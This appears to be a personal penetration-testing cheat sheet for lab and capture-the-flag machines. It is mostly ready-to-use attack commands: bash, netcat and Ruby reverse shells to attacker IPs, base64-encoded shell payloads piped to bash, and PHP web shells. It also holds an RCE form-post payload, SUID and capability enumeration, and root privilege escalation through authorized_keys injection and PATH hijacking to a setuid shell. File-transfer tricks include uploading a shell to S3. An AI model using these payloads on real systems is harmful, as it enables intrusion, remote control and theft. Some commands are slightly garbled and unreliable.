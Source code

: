 #offsecMethodo

# RCE
## _SSH Command Execution_
```
ssh -p 2220 bandit18@bandit.labs.overthewire.org -t "cat /home/bandit18/readme"
```

# reverShells
## _listener on a local port_
```
rlwrap nc -lvnp 1234
```
## _reverse shell from the remote server_
```
bash -i >& /dev/tcp/@IP/1234 0>&1
``` 
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.17.161 1234 >/tmp/f
```
### can encode payload in Base64 
marche pour les formulaire
```
echo -n 'bash -i >& /dev/tcp/10.10.17.161/1234 0>&1' | base64 -w 0
```
```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNy4xNjEvMTIzNCAwPiYx | base64 -d | bash
```
## _Create end send a reverse shell php file to webvictim_
```
echo '<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.201.1.201 1234 >/tmp/f"); ?>' > shell.php
```
```
echo "<?php system("bash -c 'bash -i >& /dev/tcp/10.201.1.201/1234 0>&1'```
");?>" > shell.php
```
## _form post_
```
curl 'http://remote@ip' -X POST -d 'url=http%3A%2F%2FLOCAL-ADDRESS%3ALOCAL-PORT%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22LOCAL-ADDRESS%22%2CLOCAL-PORT%29%29%27%60'
```
	| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice | Upgrade shell TTY (2) |
	| `curl -X POST http://remot@IP/.%0d./.%0d./.%0d./bin/sh -d 'id | nc L@IP port'` | RCE
## _to allow the call backs on port 80 and 443 to our machine_
```
ufw allow from adresseip proto tcp to any port 80,443
```

## *linux update shell*
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```
script /dev/null -c bash
^Z
stty raw -echo; fg
reset 
screen
```


# foothold enum
## _lse_
https://github.com/diego-treitos/linux-smart-enumeration
## _distrib info_
```
lsb_release -a
```

```
sudo -l
```
## _find SUID files_
```
find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null

```
## _user's files_
```
find / -user admin 2>/dev/null | grep -v '^/run\|^/proc\|^/sys'
```
## _users_ (display lines finished by sh)
```
cat /etc/passwd | grep sh$

```
## _ExploitCapability_
```
getcap -r / 2>/dev/null
```
## *con.d*
```
ls -la /etc/cron.d

```
## _search ps log_
```
./pspy
```
|
# Privilege Escalation Linux
```
bash -p

```
	| `sudo -l` | List available `sudo` privileges |
	| `sudo -u user /bin/echo Hello World!` | Run a command with `sudo` |
	| `sudo su -` | Switch to root user (if we have access to `sudo su`) |
	| `sudo su user -` | Switch to a user (if we have access to `sudo su`) |
	| `ssh-keygen -f key` | Create a new SSH key |
	| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user |
	| `ssh root@10.10.10.10 -i key` | SSH to the server with the generated private key |
# Exploit absolute path
```
% cat change-pass 
#!/bin/ksh user=$1 
passwd $user
```
Rewriting the script in Korn shell helps us avoid the C-shell problem , but we still have problems. The script is vulnerable to a hacker manipulating the PATH variable. Because the program uses relative path names, a hacker can change his PATH to use his own program instead of the regular /usr/bin/passwd program: 
```
% export PATH='/tmp' 
% echo "cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755/tmp/sh" >/tmp/passwd 
% ./change-pass
```
The PATH has been changed, and the change-pass command now runs the /tmp/passwd program instead of the /usr/bin /passwd program that we intended.

```
$ export PATH=/hack/path:$PATH
$ echo $PATH
```
# Transferring Files
Start a local webserver 
```
python3 -m http.server 80
```
Download a file on the remote server from our local machine 
```
wget http://10.10.14.1/linpeas.sh
```
## _curl_
```
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```
## _base64_
Convert a file to `base64` 
```
base64 shell -w 0
```
Convert a file from `base64` back to its orig
```
echo f0VMR...SNIO...InmDwU \| base64 -d > shell
```
## _aws_
Copie an shell file on remote s3 bucket
```
aws --endpoint=http://s3.domaine_name s3 cp shell.php s3://domaine_name
```
## _ssh_
Transfer a file to the remote server with `scp` (requires SSH access) 
```
scp linenum.sh user@remotehost:/tmp/linenum.sh
```
Transfer a file from the remote server
```
scp remote_username@10.10.0.2:/remote/file.txt /local/directory
```
## **with nc**
	on local
```
nc -lvp port > file
```
 on remote host
```
nc -w 3 l@ip port < file
``` 

